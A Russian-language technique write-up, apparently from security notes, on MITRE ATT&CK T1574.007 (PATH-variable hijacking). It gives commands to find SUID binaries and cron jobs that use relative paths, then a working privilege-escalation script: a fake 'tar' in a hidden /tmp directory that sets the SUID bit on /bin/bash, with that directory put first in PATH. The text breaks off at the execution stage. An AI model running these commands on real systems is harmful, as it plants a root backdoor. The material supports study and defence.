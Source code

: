 
---

## MITRE ATT&CK

**[T1574.007]**  
**Hijack Execution Flow: Path Interception by PATH Environment Variable**  
🔗 https://attack.mitre.org/techniques/T1574/007/

Атакующий изменяет переменную `PATH`, чтобы перехватить выполнение легитимных команд. 
Техника эффективна, если привилегированная программа вызывает внешние команды без абсолютных путей.

### Этапы атаки [T1574.007]

#### 1. [TA0007] – Discovery (Разведка)
> Поиск программ, вызывающих команды без абсолютных путей

```bash
# Поиск SUID/SGID-бинарников
find / -perm -4000 -type f 2>/dev/null

# Поиск cron-задач с относительными путями
grep -rE " [a-z]+[^/]" /etc/cron* 2>/dev/null | grep -v "#" | grep -v "/usr" | grep -v "/bin"

# Поиск скриптов, запускаемых от root (в /etc/cron.d, /etc/cron.hourly)
grep -r "bin/" /etc/cron* 2>/dev/null | grep -v "#" | grep -v "/usr/bin" | grep -v "/bin/"

# Проверка прав на запись в системные директории
find / -writable 2>/dev/null | grep -E "bin|sbin|usr|etc"
```

---

#### 2. [TA0004] – Privilege Escalation (Повышение привилегий)
> Подмена команды и изменение переменной `PATH`

```bash
# Вредоносная версия tar
mkdir -p /tmp/.exploit  # Создание скрытой директории (/tmp/.exploit) для размещения эксплойтов
echo '#!/bin/bash' > /tmp/.exploit/tar  # Создание вредоносного скрипта с именем tar (скрипт должен исполняться через Bash)
echo 'chmod u+s /bin/bash' >> /tmp/.exploit/tar  # Полезная нагрузка (устанавливает SUID-бит на /bin/bash (chmod u+s), что позволяет любому пользователю запускать Bash с правами владельца (root))
chmod +x /tmp/.exploit/tar  # Делает скрипт исполняемым (Без этого шага система не сможет выполнить скрипт как программу)
export PATH="/tmp/.exploit:$PATH"  # Модификация переменной PATH (Директория /tmp/.exploit добавляется в начало PATH, и при вводе любой команды система сначала проверяет этот путь) 
```

---

#### 3. [TA0002] – Execution (Выполнение кода)
> Запуск привилегированной программы, вызывающей поддельную команду
